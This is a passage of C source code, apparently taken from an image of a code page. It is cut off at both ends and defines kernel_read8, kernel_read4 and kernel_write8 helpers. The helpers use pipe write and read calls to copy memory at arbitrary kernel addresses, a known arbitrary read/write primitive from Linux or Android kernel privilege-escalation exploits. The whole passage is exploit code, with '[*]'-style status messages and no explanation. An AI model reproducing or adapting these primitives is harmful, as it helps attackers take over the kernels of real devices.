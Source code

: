 ```
    {
        printf("[*] create dual pipe fail.\n");
        return -1;
    }
 
 
    if(-1 == write(pipefd[1], kernel_addr, 8))
    {
        perror("[*] write pipe fail.");
        return -1;
    }
 
    if(0 == read(pipefd[0], value, 8))
    {
        perror("[*] read piple fail.");
        return -1;
    }
 
    return 0;
}


int kernel_read4(void* kernel_addr,  unsigned int* value)
{
    int pipefd[2];
 
    if(-1 == pipe(pipefd))
    {
        printf("[*] create dual pipe fail.\n");
        return -1;
    }
 
 
    if(-1 == write(pipefd[1], kernel_addr, 4))
    {
        perror("[*] write pipe fail.");
        return -1;
    }
 
    if(0 == read(pipefd[0], value, 4))
    {
        perror("[*] read piple fail.");
        return -1;
    }
 
    return 0;
}
 
 
int kernel_write8(void* kernel_addr, unsigned long* value)
{
 
    int pipefd[2];
 
    if(-1 == pipe(pipefd))
    {
        printf("[*] create dual pipe fail.\n");
        return -1;
    }
 
 
    if(-1 == write(pipefd[1], value, 8))
    {
```
